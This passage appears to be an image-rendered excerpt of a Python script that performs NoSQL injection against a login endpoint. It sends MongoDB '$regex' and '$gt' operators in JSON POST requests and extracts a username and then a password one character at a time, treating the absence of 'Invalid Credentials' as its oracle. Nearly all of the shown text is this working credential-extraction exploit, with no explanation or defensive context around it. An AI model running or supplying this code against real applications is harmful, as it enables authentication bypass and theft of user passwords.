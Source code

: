 ```
    username = ""

    while status_Username:
        data = {
            "username": {"$regex": f"^{username}$"},
            "password": {"$gt":""}
        }

        response = requests.post(url, headers=headers, json=data)

        if "Invalid Credentials" not in response.text:
            status_Username = False
            sys.stdout.write(f"\rUsername: {username}")
            sys.stdout.flush()
            break

        else:
            for each in characters:
                data = {
                    "username": {"$regex": f"^{username}{each}"},
                    "password": {"$gt":""}
                }

                response = requests.post(url, headers=headers, json=data)

                if "Invalid Credentials" not in response.text:
                    username += each
                    sys.stdout.flush()
                    break

                sys.stdout.write(f"\rUsername: {username}{each}")
                sys.stdout.flush()
    
    return username

def enumeratePassword(username):
    global url
    global headers
    
    status_Password = True
    password = ""

    while status_Password:
        data = {
            "username": username,
            "password": {"$regex": f"^{password}$"}
        }

        response = requests.post(url, headers=headers, json=data)

        if "Invalid Credentials" not in response.text:
            status_Password = False
            sys.stdout.write(f"\rPassword: {password}")
            sys.stdout.flush()
            break

        else:
            for each in characters:
                data = {
                    "username": {"$gt":""},
                    "password": {"$regex": f"^{password}{each}"}
                }

```